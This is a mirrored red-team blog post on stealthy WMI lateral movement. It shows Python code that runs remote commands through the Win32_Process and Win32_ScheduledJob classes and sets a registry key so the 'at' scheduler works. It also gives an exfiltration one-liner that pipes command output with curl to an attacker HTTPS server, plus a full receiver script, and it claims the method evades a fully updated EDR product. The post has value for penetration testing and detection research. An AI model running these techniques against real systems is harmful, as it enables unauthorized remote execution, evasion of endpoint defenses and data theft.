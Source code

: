 ```yaml
---
title: Navigating Stealthy WMI Lateral Movement
updated: 2023-06-26 10:28
---
```


Mirrored from [WKL Security](https://whiteknightlabs.com/2023/06/26/navigating-stealthy-wmi-lateral-movement/)

## Introduction

In this article, we’ll look at a Python script that uses Windows Management Instrumentation (WMI) to remotely control a target computer. The script makes use of COM to communicate with the WMI infrastructure and perform administrative tasks.

Using different classes, we will explore different approaches to execute shell commands and observe how each approach works in the background and how they look in the Event Viewer. All the scripts used in the article are published in our [Github repository](https://github.com/WKL-Sec/wmiexec).

## Win32_Process Class Overview

The `Win32_Process` [WMI class](https://learn.microsoft.com/en-us/windows/win32/wmisdk/retrieving-a-class) represents a process on an operating system. It is the most straightforward way of executing a shell command via WMI.

The script starts by importing the [WMI module](https://pypi.org/project/WMI/), which provides a Python interface for interacting with the WMI service.

A WMI connection is established with the specified target computer, utilizing the provided authentication details (username and password).

```python
c = wmi.WMI(computer=target_computer, user=username, password=password)
```

To execute the command, the script utilizes the `Win32_Process` class provided by WMI. The Create method of this class is called, with the `CommandLine` parameter set to the desired command.

```python
process_id, result = c.Win32_Process.Create(CommandLine="cmd /c whoami")
```

Impacket’s version of [Wmiexec](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py) uses this class; however, [several articles](https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/) state that the process relationship involving a parent process known as `WMIPRVSE.EXE`. and its child process `CMD.EXE` or `POWERSHELL.EXE` is a red flag. In order to avoid this behavior, we will use another class, which is mentioned below.

If you take a look at the Event Viewer, an Event with ID 4688 will be created. Analyzing this event will reveal the executed command:

![event_4688_showing_the_executed_command](https://whiteknightlabs.com/wp-content/uploads/2023/06/Screenshot-from-2023-06-15-15-30-56.png)

## Win32_ScheduledJob Class Overview

Approaching code execution via ScheduledJob might be a better way, as it is not relying on port 139 and 445 (some antivirus software heavily monitors these ports). Instead, it drops the SMB connection function to use `Win32_ScheduledJob` class to execute commands.

It is worth noting that this class works by default on Windows versions under NT6 (Windows Server 2003 and prior). This is because the following registry should be created:

```
Key: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Configuration 
Name: EnableAt 
Type: REG_DWORD
Value: 1
```

Fortunately, WMI provides a class called [StdRegProv](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/regprov/stdregprov) for interacting with the Windows Registry. With this in hand, we can do a variety of things – including retrieval, creation, deletion and modification of keys and values. We can use the following code to create the required registry key:

```python
_ = registry.SetDWORDValue(
                hDefKey=0x80000002, # HKEY_LOCAL_MACHINE
                sSubKeyName=r"SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\Configuration",
                sValueName="EnableAt",
                uValue=1
            )
```

After the execution, we are able to see the newly created registry:

![registry_enabledat_is_created](https://whiteknightlabs.com/wp-content/uploads/2023/06/Screenshot-from-2023-06-20-14-57-59.png)

We can now continue with creating the scheduled task. The following script calculates the start time for the scheduled job, which is set to one minute from the current time.

```python
change_date_time = datetime.datetime.now() + datetime.timedelta(minutes=1)
begin_time = change_date_time.strftime('%Y%m%d%H%M%S.000000+100')
```

The script then utilizes the `Win32_ScheduledJob` class to create a scheduled job, specifying the command to execute and the start time.

```python
job_id, result = c.Win32_ScheduledJob.Create(Command=“cmd /c ipconfig”, StartTime=begin_time)
```

## Win32_ScheduledJob Limitations

While this technique might be much better and stealthier, the attacker may need to restart the target’s machine to make the setting effective (apply the changed registry).

Because `Win32_ScheduledJob` is based on the [NetScheduleJobGetInfo](https://learn.microsoft.com/en-us/windows/win32/api/lmat/nf-lmat-netschedulejobgetinfo) Win32 API (which is no longer available for use as of Windows 8), you cannot use this class in conjunction with the Task Scheduler.

## Exfiltrating the Data

WMI has limitations on parsing the command output as there is no Microsoft-supported way to receive the data, so attackers must find a workaround for this issue. The most popular exfiltration technique that most of the open-source projects use are by redirecting the command’s output in a text file on the remote host’s local ADMIN$ share. One great example is the impacket’s [code](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py#L295). 

However, generating a random-named text file on the ADMIN$ share is quite suspicious. A good simple solution would be to pipe the output on an HTTPS server. This way we avoid writing to the disk and we securely transmit the data in an encrypted HTTP server. This can be achieved by executing the following command:

> cmd /Q /c <my command> | curl -X POST -k -H 'Content-Type: text/plain' --data-binary @- https://myhttpserver

A simple Python script is used to create a SSL-supported HTTP server:

```python
import ssl
from http.server import HTTPServer, BaseHTTPRequestHandler

class RequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Decode the received data
        received_data = post_data.decode('utf-8')

        # Process the received data as needed
        print(f'[+] Received data:\n{received_data}')

        # Send a response back to the client
        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()
        response_message = 'Data received successfully'
        self.wfile.write(response_message.encode('utf-8'))

def run_server():
    host = '0.0.0.0'
    port = 8080
    server_address = (host, port)

    # Create an SSL context
    ssl_context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
    ssl_context.load_cert_chain(certfile='server.crt', keyfile='server.key')

    # Create the HTTPS server with the SSL context
    httpd = HTTPServer(server_address, RequestHandler)
    httpd.socket = ssl_context.wrap_socket(httpd.socket, server_side=True)

    print(f'Starting HTTPS server on {host}:{port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

Below you can see the tool in action against a target with a fully-updated Sophos EDR installed:

![command_execution_and_data_exfiltration_in_action](https://whiteknightlabs.com/wp-content/uploads/2023/06/Screencast-from-21.6.23-06-35-40.MD-CEST.mp4)

## Conclusion

`Win32_ScheduledJob` is a better, stealthier way of performing lateral movement to the target; however, modifying the registry does require the target restart the machine. Also the Windows version has to be Windows 8 or lower (according to Microsoft).

On the other hand, `Win32_Process` works out of the box. But, as already discussed on the article, this method leads to IOCs such as `CMD.EXE` being spawned as a child process of `WMIPRVSE.EXE`

All the scripts used in the article are published in our [Github repository](https://github.com/WKL-Sec/wmiexec).

## References

[https://github.com/XiaoliChan/wmiexec-RegOut](https://github.com/XiaoliChan/wmiexec-RegOut)
[https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-scheduledjob](https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-scheduledjob)
[https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/](https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/)
